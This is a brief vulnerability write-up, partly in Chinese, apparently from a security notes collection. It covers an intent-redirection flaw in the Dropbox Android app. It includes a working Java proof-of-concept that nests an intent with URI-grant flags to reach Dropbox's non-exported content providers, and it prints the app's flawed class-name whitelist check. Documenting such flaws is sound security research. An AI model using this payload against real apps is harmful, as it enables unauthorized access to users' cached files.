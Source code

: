 # 组件-Dropbox
对某些缓存文件 获得 读/写权限 以及其他次要信息（前提是攻击者知道文件的名字）
原因在于 未验证传入的Intent包名 导致恶意应用程序伪装成受新人的 Android Activity

'''payload
Intent next = new Intent();
next.setClassName(getPackageName(),"com.dropbox.android.activity.CameraUploadSettingsActivity");
next.setData(Uri.parse("content://com.dropbox.android.LocalFile/smth"));
next.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
			| Intent.FLAG_GRANT_WRITE_URI_PERMISSION
            | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
            | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
Intent intent = new Intent();
intent.setClassName("com.dropbox.android","com.dropbox.android.activity.LoginOrNewAcctActivity");
intent.putExtra("com.dropbox.activity.extra.NEXT_INTENT", next);
startActivity(intent);
'''

and way able to get access to providers which are android:exported="false" but android:grantUriPermissions="true" of Dropbox app. App had a white-list of allowed activities and performed the check by the following way:

'''
    public static boolean a(Intent intent) {
        ComponentName component = intent.getComponent();
        if (component == null) {
            return false;
        }
        String className = component.getClassName();
        for (Object equals : F) {
            if (className.equals(equals)) {
                return true;
            }
        }
        return false;
    }
'''